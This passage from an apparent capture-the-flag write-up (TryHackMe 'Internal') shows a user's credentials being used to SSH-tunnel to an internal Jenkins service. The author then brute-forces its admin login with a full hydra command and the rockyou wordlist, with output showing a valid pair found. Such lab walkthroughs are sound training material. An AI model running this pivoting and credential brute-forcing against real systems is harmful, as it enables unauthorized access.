 ```bash
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$
```

Hmm, there's a Jenkins service running ...

Since we have the credentials of this user, let's forward that port to us for being able to access it from our PC.

```bash
╰─ lanfran@parrot ❯ ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm                                                             ─╯
The authenticity of host 'internal.thm (10.10.170.6)' can't be established.
ECDSA key fingerprint is SHA256:fJ/BlTrDF8wS8/eqyoej1aq/NmvQh79ABdkpiiN5tqE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'internal.thm,10.10.170.6' (ECDSA) to the list of known hosts.
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  9 09:24:06 UTC 2021

  System load:  0.02              Processes:              117
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 48%               IP address for eth0:    10.10.170.6
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$
```
Hmm, if we now go to `127.0.0.1:8080` we will see the jenkins page requesting credentials, let's use `hydra` to brute force it.

```bash
╰─ lanfran@parrot ❯ hydra 127.0.0.1 -s 8080 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-09 11:41:41
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password
[8080][http-post-form] host: 127.0.0.1   login: admin   password: [REDACTED]
[STATUS] attack finished for 127.0.0.1 (valid pair found)
```